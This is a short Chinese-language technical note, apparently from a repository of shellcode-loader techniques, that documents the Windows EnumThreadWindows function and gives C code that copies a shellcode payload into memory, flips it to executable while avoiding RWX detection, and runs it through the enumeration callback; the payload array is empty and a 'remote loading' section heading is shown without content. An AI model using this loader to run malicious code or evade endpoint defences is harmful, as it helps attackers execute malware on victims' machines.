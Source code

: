 **EnumThreadWindows**

https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumthreadwindows

`EnumThreadWindows` 是 Windows API 中的一个函数，用于枚举特定线程创建的顶级窗口（即不属于其他窗口的窗口）。

```c++
BOOL EnumThreadWindows(
  [in] DWORD       dwThreadId,
  [in] WNDENUMPROC lpfn,
  [in] LPARAM      lParam
);
```

- `dwThreadId`：要枚举其窗口的线程的标识符。
- `lpfn`：一个指向应用程序定义的回调函数的指针。该函数接收窗口句柄作为参数，返回一个布尔值。如果回调函数返回 FALSE，则枚举过程将终止。
- `lParam`：一个应用程序定义的值，传递给回调函数。

#### 代码详情

```c++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
  DWORD oldprotect = 0;

	//shellcode在main函数内，存储在pe结构的sections table中的.text部分
	unsigned char payload[] = {};
	unsigned int payload_len = sizeof(payload);
	
	// 使用VirtualAlloc申请一个可读可写的内存，这里没有申请执行权限是为了防止出现RWX权限的敏感内存
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// 将shellcode复制到申请的内存中，这里还可以用memcpy等
	RtlMoveMemory(exec_mem, payload, payload_len);
	
	// 使用VirtualProtect添加执行权限
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	// 如果返回正常，回调函数执行shellcode
	if ( rv != 0 ) {
			EnumThreadWindows(0, (WNDENUMPROC) exec_mem, 0);
	}

	return 0;
}

```



### 远程加载shellcode

